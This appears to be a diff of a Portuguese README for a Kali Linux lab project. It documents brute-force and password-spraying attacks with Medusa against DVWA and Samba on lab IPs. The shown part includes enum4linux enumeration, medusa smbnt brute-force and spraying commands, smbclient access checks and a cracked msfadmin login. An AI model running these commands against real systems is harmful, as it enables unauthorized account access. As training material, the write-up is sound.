

Before and after one commit to fabiomh/brute-force-medusa-kali-linux, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; pictures changed too: images/dvwa-bruteforce.png (added), images/smb-ataque.png (added), images/smb-enum.png (added); blank space fills up the shorter version.

Commit message:
Add files via upload
adiciona evidencias (prints) e atualiza README

````diff
--- a/README.md
+++ b/README.md
@@ -236,51 +164,33 @@ medusa -h 192.168.56.20 -U usuarios.txt -P senhas.txt \
 
-> 📸 *Inserir print em `/images/dvwa-bruteforce.png`.*
+![Força bruta DVWA](images/dvwa-bruteforce.png)
+
+> **Nota técnica:** a abordagem inicial foi com o **Hydra** (`http-get-form`), mas a versão testada apresentou um conflito de parsing ao escapar os dois-pontos (`:`) do cabeçalho `Cookie`. A solução com `curl` se mostrou mais transparente e confiável, deixando explícito o mecanismo HTTP por trás do ataque.
 
 ---
 
 ## 🏢 Cenário 3 – Password Spraying em SMB
 
-Simulação de um **cenário corporativo mal configurado**: muitos usuários, senhas fracas e padronizadas.
+### Passo 1 – Enumeração de usuários e compartilhamentos
+```bash
+enum4linux -a 192.168.56.101
+```
+A enumeração revelou o servidor **Samba 3.0.20-Debian**, o workgroup, usuários e os compartilhamentos disponíveis:
 
-### Passo 1 – Enumeração de usuários
+![Enumeração SMB](images/smb-enum.png)
+
+### Passo 2 – Força bruta no SMB + validação do acesso
 ```bash
-# Enumeração SMB para descobrir usuários e compartilhamentos
-enum4linux -a 192.168.56.20
-
-# Alternativa com nmap
-nmap --script smb-enum-users -p 445 192.168.56.20
+medusa -h 192.168.56.101 -U usuarios.txt -P senhas.txt -M smbnt -t 2 -v 4
+smbclient -L //192.168.56.101 -U msfadmin
 ```
 
-Com os usuários descobertos, montamos a lista `usuarios_smb.txt`.
+**Resultado:**
+```
+ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
+```
+O `smbclient` confirmou o acesso real, listando os compartilhamentos (`tmp`, `opt`, `IPC$`, `ADMIN$`, home do usuário):
 
-### Passo 2 – Password spraying com Medusa
-Em vez de muitas senhas por usuário (que dispara bloqueios), testamos **uma senha comum contra todos os usuários**:
-
-```bash
-medusa -h 192.168.56.20 -U usuarios_smb.txt -p "Senha@123" -M smbnt -t 1 -v 4
-```
-
-> Note o `-t 1` (sequencial) e uma única senha (`-p`): o objetivo é ser **discreto** e não travar as contas.
-
-> 📸 *Inserir print em `/images/smb-spraying.png`.*
-
----
-
-## ✅ Validação dos Acessos
-
-Após obter credenciais válidas, confirmamos o acesso real ao serviço SMB com o **smbclient**:
-
-```bash
-# Listar compartilhamentos disponíveis para o usuário
-smbclient -L //192.168.56.20 -U msfadmin
-
-# Conectar a um compartilhamento específico
-smbclient //192.168.56.20/tmp -U msfadmin
-```
-
-Dentro do `smbclient`, comandos como `ls`, `get` e `put` confirmam o nível de acesso obtido — evidência de que a credencial funciona de ponta a ponta.
-
-> 📸 *Inserir print em `/images/smbclient-acesso.png`.*
+![Ataque e acesso SMB](images/smb-ataque.png)
 
 ---
 
````
Also changed, not shown: other parts of README.md (+66 -136 lines), images/dvwa-pagina.png (added), images/ftp-medusa.png (added), images/nmap-scan.png (added).
